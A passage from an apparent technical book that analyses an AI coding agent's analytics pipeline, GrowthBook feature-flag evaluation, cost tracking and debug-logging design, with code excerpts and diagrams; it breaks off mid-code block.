The `processRemoteEvalPayload` function in GrowthBook handles a critical SDK workaround. The GrowthBook API returns feature definitions in `{ "value": ... }` format, but the SDK expects `{ "defaultValue": ... }`. The transformation loop at `src/services/analytics/growthbook.ts:L347-L376` rewrites each feature definition, moving `value` to `defaultValue` when the latter is absent. The function also stores experiment data (experiment ID, variation ID) for later exposure logging when the feature is accessed. After transformation, the function caches the evaluated values in `remoteEvalFeatureValues` -- a Map that serves as a reliable cache bypassing the SDK's own `evalFeature()` method, which attempts to re-evaluate rules locally and ignores the pre-evaluated `value` from remote eval (`src/services/analytics/growthbook.ts:L382-L393`).

## Control flow

The analytics event flow follows a queue-then-drain pattern. Events logged before the sink is attached are buffered in an in-memory array. When `attachAnalyticsSink` is called during startup, queued events are drained via `queueMicrotask` to avoid blocking the startup path. The `attachAnalyticsSink` function is idempotent: if a sink is already attached, subsequent calls are no-ops. This allows calling from both the preAction hook (for subcommands) and setup() (for the default command) without coordination (`src/services/analytics/index.ts:L95-L98`):

```mermaid
flowchart
    A[logEvent called] --> B{sink attached?}
    B -- no --> C[Push to eventQueue]
    B -- yes --> D[sink.logEvent name, metadata]
    C --> E[attachAnalyticsSink called later]
    E --> F[Set sink reference]
    F --> G[Drain eventQueue via queueMicrotask]
    G --> D

    H[logEventAsync called] --> I{sink attached?}
    I -- no --> J[Push to eventQueue with async=true]
    I -- yes --> K[sink.logEventAsync name, metadata]
    J --> E
    G --> K
```

The cost tracking flow converts raw API `Usage` objects from the Anthropic SDK into accumulated per-model costs. The `addToTotalSessionCost` function is the central entry point, called after every API response:

```mermaid
sequenceDiagram
    participant QL as Query Loop
    participant CT as cost-tracker
    participant BS as bootstrap/state
    participant AN as analytics

    QL->>CT: addToTotalSessionCost(cost, usage, model)
    CT->>CT: addToTotalModelUsage(cost, usage, model)
    CT->>BS: addToTotalCostState(cost, modelUsage, model)
    CT->>AN: getCostCounter().add(cost, {model, speed?})
    CT->>AN: getTokenCounter().add(tokens, {model, type})
    CT->>CT: Check advisor usage
    loop For each advisor usage
        CT->>CT: calculateUSDCost(advisorUsage.model, advisorUsage)
        CT->>AN: logEvent('tengu_advisor_tool_token_usage', {...})
        CT->>CT: Recursive addToTotalSessionCost for advisor
    end
    CT-->>QL: totalCost
```

The `addToTotalSessionCost` function demonstrates how cost accumulation feeds both state and analytics. The function first accumulates per-model token counts (input, output, cache read, cache creation, web search), then feeds cost and token counters to the analytics pipeline with model and speed attributes. The `isFastModeEnabled()` check ensures that fast-mode invocations are tagged with a `speed: 'fast'` attribute, allowing downstream analytics to separate fast-mode costs from normal-mode costs per model:

```typescript
// src/cost-tracker.ts:L278-L301
export function addToTotalSessionCost(
  cost: number,
  usage: Usage,
  model: string,
): number {
  const modelUsage = addToTotalModelUsage(cost, usage, model)
  addToTotalCostState(cost, modelUsage, model)

  const attrs =
    isFastModeEnabled() && usage.speed === 'fast'
      ? { model, speed: 'fast' }
      : { model }

  getCostCounter()?.add(cost, attrs)
  getTokenCounter()?.add(usage.input_tokens, { ...attrs, type: 'input' })
  getTokenCounter()?.add(usage.output_tokens, { ...attrs, type: 'output' })
  getTokenCounter()?.add(usage.cache_read_input_tokens ?? 0, {
    ...attrs,
    type: 'cacheRead',
  })
  getTokenCounter()?.add(usage.cache_creation_input_tokens ?? 0, {
    ...attrs,
    type: 'cacheCreation',
  })
```

The `addToTotalModelUsage` function accumulates per-model token counts. For each API response, it reads the existing model usage from `getUsageForModel(model)`, adds the new token counts (input, output, cache read, cache creation, web search), and updates the context window and max output tokens for the model. The context window and max output tokens are read from `getContextWindowForModel` and `getModelMaxOutputTokens` respectively, ensuring that the cost display always shows the correct model configuration even when models are updated between sessions (`src/cost-tracker.ts:L250-L276`). The web search request count is extracted from `usage.server_tool_use?.web_search_requests` using optional chaining, since this field is not present in all API responses.

The GrowthBook feature flag lifecycle shows how feature values are resolved with multiple fallback layers. The resolution order is: environment variable overrides (for eval harnesses), config overrides (for ant-only /config Gates tab), in-memory payload (from the most recent successful fetch), disk cache (from a previous process's sync), and finally the default value:

```mermaid
flowchart
    A[Feature flag read] --> B{Env override?}
    B -- yes --> C[Return override value]
    B -- no --> D{Config override?}
    D -- yes --> E[Return config override]
    D -- no --> F{In-memory payload?}
    F -- yes --> G[Return remoteEvalFeatureValues]
    F -- no --> H{Disk cache?}
    H -- yes --> I[Return cachedGrowthBookFeatures]
    H -- no --> J[Return defaultValue]
```

GrowthBook initialization is gated on 1P event logging being enabled. The client is created with `remoteEval: true` so the server pre-evaluates feature flags. The `cacheKeyAttributes` setting ensures that when the user ID or organization changes (e.g., login to a different org), the client re-fetches feature values rather than serving stale ones. The `thisClient` local variable captures the client instance so the init callback operates on the correct client even if reinitialization happens before init completes:

```typescript
// src/services/analytics/growthbook.ts:L526-L545
const thisClient = new GrowthBook({
  apiHost: baseUrl,
  clientKey,
  attributes,
  remoteEval: true,
  // Re-fetch when user ID or org changes (org change = login to different org)
  cacheKeyAttributes: ['id', 'organizationUUID'],
  // Add auth headers if available
  ...(authHeaders.error
    ? {}
    : { apiHostRequestHeaders: authHeaders.headers }),
  // Debug logging for Ants
  ...(process.env.USER_TYPE === 'ant'
    ? {
        log: (msg: string, ctx: Record<string, unknown>) => {
          logForDebugging(`GrowthBook: ${msg} ${jsonStringify(ctx)}`)
        },
      }
    : {}),
})
```

The periodic refresh interval differs between ant and external users. Ant users refresh every 20 minutes (to catch kill switch changes quickly), while external users refresh every 6 hours (matching Statsig's historical interval). The `setupPeriodicGrowthBookRefresh` function registers the interval with `.unref()` so the timer does not prevent process exit:

```typescript
// src/services/analytics/growthbook.ts:L1012-L1017
const GROWTHBOOK_REFRESH_INTERVAL_MS =
  process.env.USER_TYPE !== 'ant'
    ? 6 * 60 * 60 * 1000 // 6 hours
    : 20 * 60 * 1000 // 20 min (for ants)
```

### GrowthBook evaluation path taxonomy

Every feature-flag read in cc passes through one of six exported evaluation functions. Choosing the wrong one causes either a blocking startup penalty or a stale-value bug, so the codebase encodes the trade-off directly in each function's name. The six paths divide into two groups: *non-blocking* paths that return immediately from cache, and *blocking* paths that await GrowthBook initialization (up to 5 seconds). Within each group, the paths differ in fallback behavior, deprecation status, and migration role.

**1. `getFeatureValue_CACHED_MAY_BE_STALE<T>(feature, defaultValue): T`** (`src/services/analytics/growthbook.ts:L734-L775`). The recommended path for all new code. Synchronous and non-blocking. It checks four override layers in order (see below), then reads the in-memory `remoteEvalFeatureValues` Map, then falls back to the disk cache (`cachedGrowthBookFeatures` in `~/.claude.json`), and finally returns `defaultValue`. Because the function never awaits initialization, it is safe for hot paths such as render loops and permission checks where blocking would freeze the UI. Exposure logging is deferred: if `experimentDataByFeature` has data for the feature, the exposure is logged immediately via `logExposureForFeature`; otherwise the feature key is added to `pendingExposures` and logged after init completes (`src/services/analytics/growthbook.ts:L753-L757`).

**2. `getFeatureValue_DEPRECATED<T>(feature, defaultValue): Promise<T>`** (`src/services/analytics/growthbook.ts:L719-L724`). The legacy blocking path. Calls `getFeatureValueInternal`, which awaits `initializeGrowthBook()` -- blocking the caller until the GrowthBook client has fetched its initial payload from the server or timed out after 5 seconds (`src/services/analytics/growthbook.ts:L554`). After init, it reads `remoteEvalFeatureValues` or falls back to `client.getFeatureValue()`. This path slows startup and should not be used in new code. It remains exported because `getDynamicConfig_BLOCKS_ON_INIT` delegates to it.

**3. `getFeatureValue_CACHED_WITH_REFRESH<T>(feature, defaultValue, _refreshIntervalMs): T`** (`src/services/analytics/growthbook.ts:L783-L789`). Deprecated and redundant. The `_refreshIntervalMs` parameter is unused (prefixed with underscore). The function body is a direct delegation to `getFeatureValue_CACHED_MAY_BE_STALE`. It exists because the per-feature TTL refresh it once provided is now handled globally by `setupPeriodicGrowthBookRefresh`.

**4. `checkStatsigFeatureGate_CACHED_MAY_BE_STALE(gate): boolean`** (`src/services/analytics/growthbook.ts:L804-L837`). A migration helper for the Statsig-to-GrowthBook transition. Non-blocking and synchronous. After checking env and config overrides, it reads the GrowthBook disk cache (`cachedGrowthBookFeatures`). If the feature is absent there, it falls back to `cachedStatsigGates` -- a legacy cache from the previous Statsig integration. This dual-cache fallback ensures that gates migrated from Statsig continue to work even if the GrowthBook cache has not yet been populated for them. The function returns `boolean` (not generic `T`) because Statsig gates are always boolean.

**5. `getDynamicConfig_BLOCKS_ON_INIT<T>(configName, defaultValue): Promise<T>`** (`src/services/analytics/growthbook.ts:L1136-L1141`). Blocking variant for configuration objects. Delegates to `getFeatureValue_DEPRECATED`. In GrowthBook's model, dynamic configs are features with object values; the function exists for Statsig API parity so call sites that previously used `Statsig.getConfig()` can migrate without restructuring.

**6. `getDynamicConfig_CACHED_MAY_BE_STALE<T>(configName, defaultValue): T`** (`src/services/analytics/growthbook.ts:L1150-L1155`). Non-blocking variant for configuration objects. Delegates to `getFeatureValue_CACHED_MAY_BE_STALE`. Preferred over the blocking variant for startup-critical paths.

The following decision tree shows which evaluation path to use based on the caller's context:

```mermaid
flowchart TD
    A[Need a feature value?] --> B{New code or legacy?}
    B -- new code --> C{Boolean gate or typed value?}
    B -- legacy/migration --> D{Statsig gate migration?}
    C -- typed value --> E{Blocking acceptable?}
    C -- boolean gate --> F{Security-critical?}
    E -- no --> G["getFeatureValue_CACHED_MAY_BE_STALE()"]
    E -- yes, config object --> H["getDynamicConfig_BLOCKS_ON_INIT()"]
    F -- yes --> I["checkSecurityRestrictionGate()"]
    F -- no, user-invoked --> J["checkGate_CACHED_OR_BLOCKING()"]
    D -- yes --> K["checkStatsigFeatureGate_CACHED_MAY_BE_STALE()"]
    D -- no --> L["getFeatureValue_DEPRECATED() — avoid in new code"]
```

**Four override layers.** Every evaluation path checks the same four layers in the same order before reaching the GrowthBook-provided value. The override layers form a priority chain that ensures local developer intent always wins over remote configuration:

1. **`CLAUDE_INTERNAL_FC_OVERRIDES` environment variable** (ant-only, `src/services/analytics/growthbook.ts:L170-L192`). A JSON object parsed once and memoized in `envOverrides`. Intended for eval harnesses that need deterministic feature flag configurations. The env var is only read when `USER_TYPE === 'ant'`, so external users cannot use it.

2. **`/config` Gates tab overrides** (ant-only, `src/services/analytics/growthbook.ts:L211-L220`). Stored in `getGlobalConfig().growthBookOverrides`. Unlike env overrides, these are not memoized: the user can change them at runtime via the `/config` UI, and `getGlobalConfig()` is already memory-cached. Config overrides lose to env overrides so that eval harnesses remain deterministic even when a developer has local config overrides set.

3. **In-memory `remoteEvalFeatureValues` Map** (`src/services/analytics/growthbook.ts:L81`). Populated by `processRemoteEvalPayload` after each successful server fetch (both init and periodic refresh). This is the authoritative source once the GrowthBook client has initialized. The Map is a workaround for an SDK limitation: the SDK's `evalFeature()` re-evaluates rules locally and ignores the pre-evaluated `value` from remote eval responses, so cc caches the server-evaluated values directly (`src/services/analytics/growthbook.ts:L378-L393`).

4. **Disk cache in `cachedGrowthBookFeatures`** (`src/services/analytics/growthbook.ts:L770`). Written by `syncRemoteEvalToDisk` after every successful payload processing. Survives across process restarts. The function performs a wholesale replace (not merge), so features deleted server-side are dropped from disk on the next successful sync (`src/services/analytics/growthbook.ts:L407-L417`).

**Periodic refresh.** The `setupPeriodicGrowthBookRefresh` function (`src/services/analytics/growthbook.ts:L1087-L1110`) establishes a `setInterval` timer with `.unref()` so the timer does not prevent Node.js process exit. External users refresh every 6 hours; ant users refresh every 20 minutes (`src/services/analytics/growthbook.ts:L1013-L1016`). Each refresh calls `refreshGrowthBookFeatures`, which invokes `client.refreshFeatures()`, rebuilds `remoteEvalFeatureValues` via `processRemoteEvalPayload`, syncs to disk, and fires `refreshed.emit()` to notify subscribers (`src/services/analytics/growthbook.ts:L1027-L1078`). Subscribers register via `onGrowthBookRefresh` and receive a catch-up notification if init has already completed by registration time (`src/services/analytics/growthbook.ts:L139-L157`).

**Remote eval caching.** The `remoteEvalFeatureValues` Map (`src/services/analytics/growthbook.ts:L81`) stores server-evaluated feature values keyed by feature name. It is cleared and rebuilt on every successful `processRemoteEvalPayload` call -- both at init and on periodic refresh (`src/services/analytics/growthbook.ts:L382-L393`). The rebuild clears the Map first to remove features that were deleted server-side between refreshes (`src/services/analytics/growthbook.ts:L344`). The `experimentDataByFeature` Map is also cleared and rebuilt in parallel, storing experiment ID and variation ID for later exposure logging (`src/services/analytics/growthbook.ts:L358-L370`). The `loggedExposures` Set (`src/services/analytics/growthbook.ts:L89`) prevents duplicate exposure events within a session: once a feature's exposure has been logged, subsequent reads of the same feature skip the logging call (`src/services/analytics/growthbook.ts:L296-L300`).

The `checkGate_CACHED_OR_BLOCKING` function implements a fallback-to-blocking pattern for user-invoked features: if the disk cache says `true`, return immediately; if it says `false` or is missing, block on GrowthBook init (up to 5 seconds) to fetch the fresh server value. This prevents a stale `false` from unfairly blocking access while accepting that a stale `true` is tolerable since the server is the real gatekeeper (`src/services/analytics/growthbook.ts:L904-L935`).

The `checkSecurityRestrictionGate` function provides a blocking path for security-critical gates. It checks Statsig cache first (because a cached `true` for a security gate is safer than a stale `false`), then GrowthBook cache. If GrowthBook is re-initializing (e.g., after an auth change), the function waits for the reinit to complete before returning, ensuring that fresh auth state is reflected in security gate evaluations (`src/services/analytics/growthbook.ts:L851-L889`). This function is used for gates where returning a stale `false` could create a security vulnerability (e.g., allowing access to features that should be restricted for a logged-out user).

## Edge cases and failure modes

These edge cases reveal a pattern: cc's observability subsystems are designed to degrade gracefully for the *operator* (events are buffered, costs are advisory, flags fall back to cache) but they offer no graceful degradation path for the *agent itself*. A harness that uses its own metrics to modulate behavior would need different failure semantics -- for example, a cost counter that the query loop polls synchronously, rather than an event logger that only writes to external sinks.

**Event queue overflow before sink attachment.** The analytics queue is an unbounded array (`eventQueue: QueuedEvent[]`). If the sink is never attached (e.g., a crash during initialization), events accumulate in memory indefinitely. In practice, the sink is attached within the first few hundred milliseconds of startup, so this is a theoretical concern. However, for long-running agents that initialize sinks lazily, an unbounded queue is a memory leak risk. The `attachAnalyticsSink` function logs the queue size for ant users (`sink.logEvent('analytics_sink_attached', { queued_event_count: queuedEvents.length })`) to help debug timing issues (`src/services/analytics/index.ts:L107-L111`).

**GrowthBook operational edge cases.** GrowthBook's lifecycle introduces several failure modes that all resolve through the same fallback pattern: degrade to disk cache, then to default values. The client initialization has a 5-second timeout (`src/services/analytics/growthbook.ts:L554`); on timeout, the agent falls back to disk-cached feature values from a previous process. The API sometimes returns `{ "value": ... }` instead of the SDK-expected `{ "defaultValue": ... }`, which the `processRemoteEvalPayload` function transforms (`src/services/analytics/growthbook.ts:L347-L356`). An empty payload is guarded against: the `Object.keys(payload.features).length === 0` check prevents a transient server bug from clearing the disk cache and causing total flag blackout (`src/services/analytics/growthbook.ts:L338`). When `refreshGrowthBookAfterAuthChange` is called after login, it destroys the old client and creates a new one; the `reinitializingPromise` variable tracks the in-flight reinit so that `checkSecurityRestrictionGate` can await it rather than returning a stale value (`src/services/analytics/growthbook.ts:L870-L872`). The `loggedExposures` set prevents firing duplicate exposure events when `getFeatureValue_CACHED_MAY_BE_STALE` is called in hot paths like render loops (`src/services/analytics/growthbook.ts:L89`). The `CLAUDE_INTERNAL_FC_OVERRIDES` environment variable allows overriding feature values for evaluation harnesses (active only when `USER_TYPE === 'ant'`). The `onGrowthBookRefresh` signal system includes a catch-up mechanism: if init has already completed when a listener is registered, the listener fires on the next microtask, handling the race where the network response lands before the REPL mounts (`src/services/analytics/growthbook.ts:L144-L151`). The `resetGrowthBook` function performs complete teardown (stops refresh, destroys client, clears all maps, invalidates promises) to prevent memory leaks on auth changes (`src/services/analytics/growthbook.ts:L987-L1010`). Trust gating on the `getGrowthBookClient` factory prevents executing `apiKeyHelper` commands before the workspace trust dialog, which could expose credentials in an untrusted workspace (`src/services/analytics/growthbook.ts:L514-L521`). All of these edge cases share the same architectural principle: the feature flag subsystem never blocks the agent's core functionality, because every code path has a fallback that preserves operability even when GrowthBook is unavailable.

**Cost state restoration across sessions.** The `restoreCostStateForSession` function only restores costs if the session ID matches the last saved session (`src/cost-tracker.ts:L93`). If the user resumes an older session (not the most recent one), cost state is not restored and the session starts from zero. This is a deliberate choice: cost data is advisory, not authoritative, and stale cost data from a different session is worse than no cost data. The `setCostStateForRestore` function in the bootstrap state module overwrites the accumulated cost state with the restored values, including per-model usage maps. When the model usage is reconstructed, each entry is enriched with `contextWindow` and `maxOutputTokens` from the model metadata, since these values are not stored in the project config (`src/cost-tracker.ts:L97-L109`).

**Advisor recursive cost.** The `addToTotalSessionCost` function recursively calls itself for each advisor usage (`src/cost-tracker.ts:L316-L321`). If an advisor usage itself triggers an advisor (a theoretical possibility with nested model calls), this could produce deep recursion. In practice, the advisor chain is bounded, but the lack of an explicit depth guard is a latent risk. The `getAdvisorUsage` function from `src/utils/advisor.ts` extracts advisor usage from the main API response, and each extracted usage is costed separately with its own model and token counts.

**Event sampling configuration.** Events may be sampled based on the `tengu_event_sampling_config` dynamic config from GrowthBook (`src/services/analytics/index.ts:L128`). When sampled, the sample rate is added to the event metadata. This allows the analytics team to reduce event volume for high-frequency events without changing the code, by configuring a sample rate in the GrowthBook dashboard. For long-running agents, event sampling is essential to prevent analytics pipelines from being overwhelmed by high-volume events like per-keystroke typeahead or per-frame render updates.

**Cost model canonicalization.** The `formatModelUsage` function aggregates token usage by canonical model name using `getCanonicalName`. This is necessary because the same model may be referenced by different identifiers (e.g., `claude-3-5-sonnet-20241022` and `claude-3-5-sonnet-latest` are the same model). Without canonicalization, the same model's usage would be split across multiple entries in the display, making it harder for operators to assess total cost per model tier (`src/cost-tracker.ts:L181-L226`). The `formatCost` helper adjusts decimal precision based on the magnitude of the cost: costs above $0.50 are displayed with 2 decimal places, while smaller costs use 4 decimal places, avoiding the display of meaningless precision for tiny per-turn costs (`src/cost-tracker.ts:L177-L179`).

**Cost tracker failure and miscount scenarios.** The cost tracker has no error recovery path when it produces incorrect numbers. If `addToTotalSessionCost` receives a malformed `Usage` object (e.g., negative token counts from a bug in the SDK's cache accounting, or `NaN` from a failed JSON parse), the function adds the malformed values to the running totals without validation. There is no range check, no `isNaN` guard, and no circuit breaker that detects implausible cost jumps. The downstream effect is that `formatTotalCost` may display a nonsensical cost (e.g., -$3.42 or $Infinity), and the persisted `StoredCostState` in project config will carry the corrupted values forward into the next session. The architectural reason for the absence of validation is that the cost tracker trusts the Anthropic SDK's `Usage` type to be well-formed, and adding per-field validation would couple the cost tracker to the SDK's version-specific field semantics. A more robust design would validate at the boundary: `addToTotalSessionCost` should check that `cost >= 0` and that all token counts are non-negative integers before accumulating, rejecting malformed responses with a warning event. Additionally, the cost tracker's `getCostCounter()?.add(cost, attrs)` call uses optional chaining, meaning that if the analytics counter is not yet initialized, the cost is accumulated in state but not reported to analytics -- creating a silent gap between the displayed cost and the cost visible in the Datadog dashboard. This gap is not surfaced to the operator.

## Where cc diverges from the published pattern

The central tension in cc's observability architecture is this: cc builds observability *for the operator* (a human watching a terminal), not observability *for the agent itself* (a feedback loop that changes behavior). HER prescribes both; cc provides only the first. Understanding why reveals the architectural constraints that a next-generation harness must overcome.

HER Section 14 describes three pillars: traces, metrics, and logs. cc implements all three but organizes them differently than the report suggests. Traces in cc are not distributed-tracing spans (OpenTelemetry style) but individual analytics events (`tengu_*` event names) that are correlated post-hoc by session ID. There is no span propagation or trace context. The reason is architectural: cc's analytics pipeline was designed as a fire-and-forget event logger for Datadog and first-party ingestion. Adding span context would require threading a trace ID through every tool call, sub-agent dispatch, and model invocation -- a cross-cutting concern that touches every module in the codebase. For a single-process terminal agent, post-hoc correlation by session ID is sufficient; for multi-agent distributed systems (Chapter 21's swarm layer, Chapter 48's remote agents), a proper tracing implementation would be needed. The `tengu_*` event names already encode enough structure (e.g., `tengu_tool_call`, `tengu_query_start`) that a downstream pipeline could reconstruct spans, but cc itself never reads them back.

HER Section 13.2 describes a "cost control architecture" with per-task cost caps, per-session cost caps, per-hour spend rate alerts, and a dead-letter queue. cc implements per-session cost tracking and display but does not enforce hard cost caps that terminate the session. The `formatTotalCost` function displays accumulated costs at session end (`src/cost-tracker.ts:L228-L244`), but there is no programmatic `if cost > cap then halt` check in the query loop. The constraint here is the partial-work problem: a hard cost cap that kills the agent mid-task may leave the codebase in an inconsistent state -- half-written files, uncommitted changes, a git worktree left behind. cc's design prioritizes leaving the workspace in a recoverable state over enforcing budget limits. The `tokenBudget` system in Chapter 10 provides a softer form of control: it reduces model capability (switching to a cheaper model or reducing thinking budget) rather than terminating the session, which is a more graceful degradation path. But this only addresses context overflow, not cost accumulation. A true cost-control architecture would need to negotiate with the tool dispatch pipeline (Chapter 12) to pause expensive operations and checkpoint state before terminating -- a feature cc does not have.

HER Section 13.3 describes "semantic routing" (route simple tasks to cheap models). cc implements this through the effort/token budget system and model selection logic (covered in Chapter 10), but the analytics pipeline described in this chapter does not drive routing decisions. The analytics events are write-only; no code path reads analytics events to change model selection or tool behavior. This is a deliberate architectural boundary: cc's cost counter and token counter feed into the state module (`src/state/AppStateStore.ts`) as numeric accumulators, not into the analytics pipeline as event streams. The reason is that analytics events are batched and sent to external services with second-scale latency; routing decisions need microsecond latency. A harness that closed this loop would need an in-process metrics store (not a remote event logger) that the query loop could query synchronously before each model invocation.

HER Section 13.4 recommends tracking "cost-per-completed-task" and "cost-per-quality-unit" rather than cost-per-token alone. cc's `formatModelUsage` function aggregates token usage by canonical model name (`src/cost-tracker.ts:L181-L226`), enabling operators to compare the cost efficiency of different model configurations. But cc does not track task completion quality or correlate cost with outcomes. The architectural reason is that cc has no canonical definition of "task completed." The TodoWrite tool (Chapter 17) lets the agent track its own tasks, but these are self-reported and not ground-truth verified. Building such a pipeline would require either a verifier agent (expensive) or integration with CI systems (external dependency), neither of which fits cc's local-first, single-process model.

HER Section 14.4 describes "alerting patterns" including loop detection, context rot signals, cost spike detection, and staleness detection. cc does not implement any of these as automated alerts. The analytics pipeline logs events that *could* be used for alerting, but the alerts themselves are not generated in-process. This is consistent with cc's terminal-agent model: there is no dashboard, and the human operator is the alerting system. However, this creates a blind spot for long-running agents (Chapter 47's cron tasks, Chapter 24's dream tasks) that operate without a human watching. The `stopHooks` mechanism in Chapter 7 provides a limited form of loop detection (detecting repeated identical tool calls), but it does not detect the subtler patterns HER describes: semantic similarity of tool calls (context rot), spend velocity anomalies, or prolonged lack of git activity. Adding in-process alerting would require a separate monitoring loop that reads the analytics event stream -- but the current write-only architecture makes this impossible without refactoring the pipeline to support internal subscribers.

HER Section 14.2 identifies "the observability gap": agents fail silently because their response format looks correct. A 200 OK from a tool call does not mean the operation succeeded semantically. cc's cost tracker partially addresses this for cost-related failures (accumulating real USD costs regardless of tool-call success), but it does not address the broader observability gap for semantic correctness. The `tengu_*` events log tool calls and results, but there is no automated pipeline that evaluates whether a tool result achieved its intended effect. The `_PROTO_*` key convention and `stripProtoFields` fanout guard generalize to any system with multi-destination logging at different access levels, but they only control data routing, not data quality. Closing the observability gap would require either a verifier agent (expensive, and subject to the Ouroboros problem from Chapter 21) or deterministic post-condition checks on tool results (architecturally intrusive, requiring changes to every tool's return type).

**Closing the loop: an in-process metrics bus design.** The architectural lesson from cc's write-only analytics pipeline is that observability-for-the-agent requires a fundamentally different data structure than observability-for-the-operator. cc's `AnalyticsSink` interface is asynchronous and fan-out: events are sent to external services with second-scale latency, and no code path reads them back. A harness that needs to close the feedback loop -- for cost control, loop detection, or adaptive routing -- would need an in-process metrics bus with the following properties. First, the bus must be synchronous: the query loop must be able to read a metric (e.g., `currentSpendRate()`) without yielding to the event loop, because routing decisions happen on the hot path between receiving a model response and dispatching the next tool call. Second, the bus must support sliding-window aggregation: the query loop needs to ask "how much have I spent in the last 5 minutes?" not "how much have I spent total?" which requires a ring buffer or exponential decay accumulator, not a simple counter. Third, the bus must support threshold subscribers: the query loop should not poll the bus; instead, the bus should invoke a callback when a metric crosses a threshold (e.g., spend rate exceeds $2/minute), enabling the query loop to switch models or pause tool dispatch reactively. Fourth, the bus must coexist with the existing write-only pipeline: cc's `logEvent` calls should continue to fan out to Datadog unchanged, while a parallel `MetricsBus` instance feeds both the external sinks and the internal threshold subscribers. This coexistence can be achieved by having `attachAnalyticsSink` also attach the metrics bus as a subscriber, so every event published to the sink is also published to the bus. The key implementation detail is that the bus subscriber must be called synchronously before the external sink fan-out, so that threshold callbacks execute before the next event is processed. This design is the minimum viable extension to cc's current architecture: it adds a read path to the existing write-only pipeline without refactoring any call sites, because the bus subscribes at the sink attachment point rather than replacing the `logEvent` function signature.

## Developer takeaways for building a long-running agent

The key lesson is the distinction between observability-for-operators and observability-for-the-agent. cc provides the first (event logging, cost display, feature flags) but not the second (in-process alerting, closed-loop cost control, outcome correlation). A harness that runs unattended for hours must close this gap: the analytics pipeline must support internal subscribers, not only external sinks, so the agent can react to its own metrics. The most important design decision is whether to build a write-only event pipeline (simpler, cc's approach) or a read-write metrics bus (more complex, but necessary for closed-loop control) -- and to make that decision before the first event is logged, because retrofitting internal subscribers onto a write-only pipeline requires refactoring every call site.
# Debug Logs, Diagnostics, and Doctor

## Overview

When a long-running agent behaves incorrectly -- looping, silently failing tool calls, or making inexplicable decisions -- the operator needs evidence to understand what happened. cc's debug logging subsystem provides that evidence through structured JSONL log files, per-session log paths, and a tiered log-level system. The debug module (`src/utils/debug.ts`) is the foundational observability layer that every other subsystem in cc depends on for diagnostic output. But it is, by design, a post-hoc observability system: it records what happened after it happened, rather than monitoring the agent's behavior in real time.

This chapter examines the debug logging architecture, the diagnostic subsystem, the doctor screen, the security review command, and the performance issue collection workflow. The central architectural question is not what these subsystems do -- that is straightforward -- but why cc's observability is firmly post-hoc rather than real-time, what constraints prevent real-time self-monitoring, and what a reader would need to add to move along the spectrum toward active failure detection.

The debug module connects to HER Section 14.2's "observability gap" -- the warning that agents fail silently because their response format looks correct. A 200 OK from a tool call does not mean the operation succeeded semantically. cc's debug logging addresses this gap by recording every significant decision, state transition, and error, but it does so as an opt-in, post-hoc system: the debug log tells you what happened, not whether what happened was correct. The `logForDebugging` function is called from over 100 sites across the codebase, making it the most widely-used diagnostic tool in cc. The JSONL format makes automated silent-failure detection possible in principle, though cc does not implement such an observer today.

The debug module also connects to HER Section 6.6 on "silent failures" -- the failure mode where an agent proceeds after tool errors as if successful. While the tool dispatch pipeline (Chapter 12) handles the structural fix (structured output validation after every tool call), the debug logging system provides the forensic evidence needed to diagnose silent failures that slip through.

The debug logging system has a dual identity with direct architectural implications for production incident diagnosis. For ant (internal) users, debug logging is always active (`shouldLogDebugMessage` returns `true` when `USER_TYPE === 'ant'`). For external users, debug logging is opt-in via `--debug` or `--debug-file`. This creates an asymmetry: when an internal user encounters a bug, the debug log is already running; when an external user encounters the same bug, the evidence was never written. The `logAntError` function (`src/utils/debug.ts:L258-L268`) compounds this by writing error-level entries only for ant users, meaning that the most severe failures in external sessions are the least likely to be diagnosed.

Beyond the debug log file, cc provides additional diagnostic surfaces: the `/doctor` command validates the runtime environment, the security review command audits the permission surface, and the perf issue collection workflow gathers logs and system information into a shareable report. These surfaces complement the passive debug log with active health checking, but they share the same fundamental limitation: they are either post-hoc or on-demand, never continuous and automatic.

```mermaid
classDiagram
    class DebugLogLevel {
        <<enumeration>>
        verbose
        debug
        info
        warn
        error
    }
    class BufferedWriter {
        +write(content: string) void
        +flush() void
        +dispose() void
        -immediateMode: boolean
        -flushIntervalMs: number
        -maxBufferSize: number
    }
    class DebugFilter {
        +pattern: string
        +match(message: string) boolean
    }
    class DebugModule {
        +logForDebugging(message, level) void
        +isDebugMode() boolean
        +getDebugLogPath() string
        +flushDebugLogs() Promise~void~
        +enableDebugLogging() boolean
        +logAntError(context, error) void
    }
    class DiagnosticSurface {
        <<interface>>
        +runChecks() DiagnosticResult[]
        +formatReport() string
    }
    class DoctorScreen {
        +runtimeCheck() DiagnosticResult
        +networkCheck() DiagnosticResult
        +toolAvailabilityCheck() DiagnosticResult
    }
    class SecurityReview {
        +auditPermissions() DiagnosticResult
        +auditMcpServers() DiagnosticResult
    }
    class PerfIssueCollector {
        +collectLogs() string
        +collectSessionData() string
        +collectSystemInfo() string
        +formatReport() string
    }
    DebugModule --> BufferedWriter : writes via
    DebugModule --> DebugFilter : filters with
    DebugModule --> DebugLogLevel : uses
    DoctorScreen ..|> DiagnosticSurface
    SecurityReview ..|> DiagnosticSurface
    PerfIssueCollector --> DebugModule : reads logs from
```

`DebugModule` is the core, writing to log files via `BufferedWriter` and filtering messages through `DebugFilter`. `DoctorScreen`, `SecurityReview`, and `PerfIssueCollector` are higher-level diagnostic surfaces that build on the debug log to provide structured health checks and issue reports.

## Data structures and contracts

The debug log level hierarchy defines five tiers, from most verbose to least. The `DebugLogLevel` type and `LEVEL_ORDER` record map each level to a numeric value for comparison:

```typescript
// src/utils/debug.ts:L18-L26 DebugLogLevel type and level ordering
export type DebugLogLevel = 'verbose' | 'debug' | 'info' | 'warn' | 'error'

const LEVEL_ORDER: Record<DebugLogLevel, number> = {
  verbose: 0,
  debug: 1,
  info: 2,
  warn: 3,
  error: 4,
}
```

The minimum log level defaults to `debug`, filtering out `verbose` messages. The `getMinDebugLogLevel` function checks the `CLAUDE_CODE_DEBUG_LOG_LEVEL` environment variable and falls back to `debug` if unset or invalid (`src/utils/debug.ts:L34-L40`). Setting the env var to `verbose` includes full status-line commands, shell output, and CWD tracking.

The `BufferedWriter` configuration controls write frequency and buffering. In debug mode, writes are synchronous and immediate; in non-debug mode, writes are buffered with a 1-second flush interval and a maximum buffer size of 100 entries:

```typescript
// src/utils/debug.ts:L158-L189 BufferedWriter creation with immediate and buffered modes
    debugWriter = createBufferedWriter({
      writeFn: content => {
        const path = getDebugLogPath()
        const dir = dirname(path)
        const needMkdir = ensuredDir !== dir
        ensuredDir = dir
        if (isDebugMode()) {
          // immediateMode: must stay sync. Async writes are lost on direct
